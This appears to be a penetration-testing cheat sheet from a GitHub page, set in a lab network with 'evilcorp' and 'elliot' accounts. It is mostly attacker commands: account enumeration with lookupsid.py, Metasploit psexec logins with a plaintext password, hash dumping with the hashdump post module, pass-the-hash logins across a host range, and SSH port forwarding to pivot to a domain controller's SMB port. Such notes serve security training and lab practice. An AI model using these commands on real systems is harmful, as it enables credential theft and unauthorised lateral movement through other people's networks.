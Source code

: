 ### lookupsid.py 
`lookupsid.py` enumerates local and domain accounts (i.e., their RIDs and usernames). 
```bash
# attacker Terminal 1:
lookupsid.py 192.168.1.69              # use an anonymous/null session
lookupsid.py john@192.168.1.69         # use a local account
lookupsid.py evilcorp/elliot@192.168.1.5 # use a domain account on a domain controller
```

## Pass-the-Hash
### Metasploit and PsExec 
Login to target 1 using `exploit/windows/smb/psexec`. 
```bash
# attacker Terminal 1:
msfconsole 
use exploit/windows/smb/psexec
set SMBDOMAIN evilcorp
set SMBUSER john
set SMBPASSWORD Password123!
set RHOST 192.168.1.69
options
run
```

Change exploits to `post/windows/gather/hashdump` and dump the hashes stored in memory.
```bash
# attacker Terminal 1: (after a shell has been opened)
background                       # put the SMB session in the background
use post/windows/gather/hashdump # change exploits
set SESSION 1                    # configure your exploit to use the SMB session in the background
options                          # check your exploit settings
run                              # dumps password hints and hashes
```

Attempt to login to other targets previously identified using one of the usernames and hashes you just dumped. 
```bash
use exploit/windows/smb/psexec
set SMBDOMAIN evilcorp
set SMBUSER elliot
set SMBPASSWORD 1a8d397270a1c210c7de787d4d082cf4
set RHOSTS 192.168.1.61,62,63,64,65,66,67,68,69
options
run
```

## SSH
```bash
# attacker Terminal 1:
# any connections to port 4444 on .69 get forwarded to port 445 on .5
ssh john@192.168.1.69 -L 4444:192.168.1.5:445
```

